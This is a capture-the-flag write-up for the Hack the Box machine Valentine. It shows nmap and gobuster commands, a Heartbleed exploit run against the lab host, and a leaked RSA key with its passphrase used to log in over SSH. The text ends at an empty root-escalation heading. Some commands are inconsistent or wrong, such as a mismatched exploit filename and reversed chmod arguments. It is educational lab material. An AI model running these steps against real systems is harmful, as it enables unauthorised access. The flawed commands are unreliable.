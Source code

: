 ```yaml
---
description: My write up for the Hack the Box machine Valentine
---
```


# Valentine

## Box Overview

![](.gitbook/assets/vmplayer_m7pbvysfib.png)

Valentine is a easy rated difficulty linux box with a difficulty rating of 4.1/10 at the time of writing.

In our attempt to root the box we will use heartbleed to get access to the password for a SSH key that we find during our initial enumeration of the box. From there we will use an interesting tmux privilege escalation technique to become root.

## Recon

### Nmap

As usual we will run nmap to get an intial scan of the box:

```text
nmap -sC -sV 10.10.10.79
```

![Nmap scan output](.gitbook/assets/vmplayer_bog38zhd5i.png)

Looking through the results of the scan we see that there are two websites and an ssh port open. We also notice that the ssl-cert is referencing a name `valentine.htb`. We will want to add this to our /etc/hosts file for later.

![added valentine.htb to /etc/hosts](.gitbook/assets/vmplayer_fihaaordqy.png)

Navigating to both the http and the https version of the site gives us just an image

![](.gitbook/assets/vmplayer_onesrjt8rr.png)

With a bit of googling and reverse image searching we discover that the image is associated with a vulnerability called heartbleed.

### What is Heartbleed?

In essence Hearthbleed is a error in logic that allows an attacker to get chucks of random memory that they should not have access to.

Here is a link to the explanation of it by [xkcd](https://xkcd.com/1354/). I think it explains what heartbleed is in a concise and easy to understand way.

## Inital Exploitation

Using the hint provided on the websites, we will use heartbleed on the machine. To do this we will first use a tool called searchsploit which will search the exploit database for any exploits related to heartbleed with this command

```text
searchsploit heartbleed
```

![searchsploit results](.gitbook/assets/vmplayer_lsgdgyjpmm.png)

We get multiple results, and the one we want to use is the bottom one. To download the exploit to the current directory we will use the command:

```text
searchsploit -m exploits/multiple/remote/32745.py
```

![](.gitbook/assets/vmplayer_8ftczejolu.png)

### Running the Exploit

Now to run the exploit we enter the command:

```text
python 32764.py 10.10.10.79
```

![heartbleed output](.gitbook/assets/vmplayer_qvg055qo5y.png)

The output produced is way too large for us to handle easily. An easy way to make the output more manageable woudl be to remove any output that is just 00. We can do this by entering the command:

```text
python 32745.py 10.10.10.79 | grep -v "00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00"
```

![](.gitbook/assets/vmplayer_kkfjaqppce.png)

Much better!

To get the same or a similar output to the screenshot above you may need to run the exploit multiple times. But what we can tell from the output is that there are pages called `/encode.php` and `/decode.php`.And a encoded string `$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==`.

The == at the end of the encoded string tells us that it is most likely a base 64 encoded string. So I went to [cyberchef](https://gchq.github.io/CyberChef/), a website that is great for quickly encoding and decoding basic strings. And our encoding string is decoded to 

![](.gitbook/assets/vmplayer_m5wfp60u3x.png)

At this point we have alot of data but nothing to use it on. So with no clear way to proceed I decided to move on to enumerating the websites.

### Website Enumeration

As usual we will use gobuster to directory bust the website on the machine.

```text
gobuster dir -u http://10.10.10.79 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![gobuster output](.gitbook/assets/vmplayer_cxs49twteg.png)

Looking through the list of directories found the one that seems most interesting to me in `/dev`.

Inside of `/dev` we find two files, hype\_key and notes.txt.

![Notes.txt](.gitbook/assets/vmplayer_gdquofxr52.png)

![hype\_key](.gitbook/assets/vmplayer_ighihkn11t.png)

Notes.txt seems to be a todo list left by the owner of this machine. Nothing too interesting there apart from a hint that there might be something worth looking at in the decoder. This would seem like a hint that the string we found earlier using the heartbleed exploit might be important here.

Whereas hype\_key looks to be encoded so we go over to cyberchef again and use the Hex decoder to get a RSA private key.

```text
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,AEB88C140F69BF2074788DE24AE48D46

DbPrO78kegNuk1DAqlAN5jbjXv0PPsog3jdbMFS8iE9p3UOL0lF0xf7PzmrkDa8R
5y/b46+9nEpCMfTPhNuJRcW2U2gJcOFH+9RJDBC5UJMUS1/gjB/7/My00Mwx+aI6
0EI0SbOYUAV1W4EV7m96QsZjrwJvnjVafm6VsKaTPBHpugcASvMqz76W6abRZeXi
Ebw66hjFmAu4AzqcM/kigNRFPYuNiXrXs1w/deLCqCJ+Ea1T8zlas6fcmhM8A+8P
OXBKNe6l17hKaT6wFnp5eXOaUIHvHnvO6ScHVWRrZ70fcpcpimL1w13Tgdd2AiGd
pHLJpYUII5PuO6x+LS8n1r/GWMqSOEimNRD1j/59/4u3ROrTCKeo9DsTRqs2k1SH
QdWwFwaXbYyT1uxAMSl5Hq9OD5HJ8G0R6JI5RvCNUQjwx0FITjjMjnLIpxjvfq+E
p0gD0UcylKm6rCZqacwnSddHW8W3LxJmCxdxW5lt5dPjAkBYRUnl91ESCiD4Z+uC
Ol6jLFD2kaOLfuyee0fYCb7GTqOe7EmMB3fGIwSdW8OC8NWTkwpjc0ELblUa6ulO
t9grSosRTCsZd14OPts4bLspKxMMOsgnKloXvnlPOSwSpWy9Wp6y8XX8+F40rxl5
XqhDUBhyk1C3YPOiDuPOnMXaIpe1dgb0NdD1M9ZQSNULw1DHCGPP4JSSxX7BWdDK
aAnWJvFglA4oFBBVA8uAPMfV2XFQnjwUT5bPLC65tFstoRtTZ1uSruai27kxTnLQ
+wQ87lMadds1GQNeGsKSf8R/rsRKeeKcilDePCjeaLqtqxnhNoFtg0Mxt6r2gb1E
AloQ6jg5Tbj5J7quYXZPylBljNp9GVpinPc3KpHttvgbptfiWEEsZYn5yZPhUr9Q
r08pkOxArXE2dj7eX+bq65635OJ6TqHbAlTQ1Rs9PulrS7K4SLX7nY89/RZ5oSQe
2VWRyTZ1FfngJSsv9+Mfvz341lbzOIWmk7WfEcWcHc16n9V0IbSNALnjThvEcPky
e1BsfSbsf9FguUZkgHAnnfRKkGVG1OVyuwc/LVjmbhZzKwLhaZRNd8HEM86fNojP
09nVjTaYtWUXk0Si1W02wbu1NzL+1Tg9IpNyISFCFYjSqiyG+WU7IwK3YU5kp3CC
dYScz63Q2pQafxfSbuv4CMnNpdirVKEo5nRRfK/iaL3X1R3DxV8eSYFKFL6pqpuX
cY5YZJGAp+JxsnIQ9CFyxIt92frXznsjhlYa8svbVNNfk/9fyX6op24rL2DyESpY
pnsukBCFBkZHWNNyeN7b5GhTVCodHhzHVFehTuBrp+VuPqaqDvMCVe1DZCb4MjAj
Mslf+9xK+TXEL3icmIOBRdPyw6e/JlQlVRlmShFpI8eb/8VsTyJSe+b853zuV2qL
suLaBMxYKm3+zEDIDveKPNaaWZgEcqxylCC/wUyUXlMJ50Nw6JNVMM8LeCii3OEW
l0ln9L1b/NXpHjGa8WHHTjoIilB5qNUyywSeTBF2awRlXH9BrkZG4Fc4gdmW/IzT
RUgZkbMQZNIIfzj1QuilRVBm/F76Y/YMrmnM9k/1xSGIskwCUQ+95CGHJE8MkhD3
-----END RSA PRIVATE KEY-----
```

As it says on the second line, the key is currently encrypted. So we need to decrypt it before we can continue.

To do this we can use the command:

```text
openssl rsa -in hype_key_encrypted -out key_decrypted
```

| Command | Explanation |
| :--- | :--- |
| openssl | uses openssl tool |
| rsa | sets the encryption method |
| -in | the input file |
| -out | the output file |

Then when prompted we need to input the passphrase that we decoded earlier: `heartbleedbelievethehype`.

![key being decrypted using openssl](.gitbook/assets/vmplayer_ktb0rddurd.png)

#### DON'T FORGET

To be able to use the key the permissions to the key file must be set to 600 using the command:

```text
chmod key_decrypted 600
```

Otherwise the key will not work.

### Connecting with SSH

From the key namign scheme it is safe to assume that the user's name for which we have decrypted their ssh key is hype. So now that we have their ssh key and their password we are now able to connect to the machine using ssh. Using the command below:

```text
ssh -i key_decrypted hype@10.10.10.79
```

![](.gitbook/assets/vmplayer_vimqdj4vm6.png)

We can get the file user.txt by moving to the user hype's desktop

![user.txt](.gitbook/assets/vmplayer_ckipmx29y1.png)

## Root PrivEsc



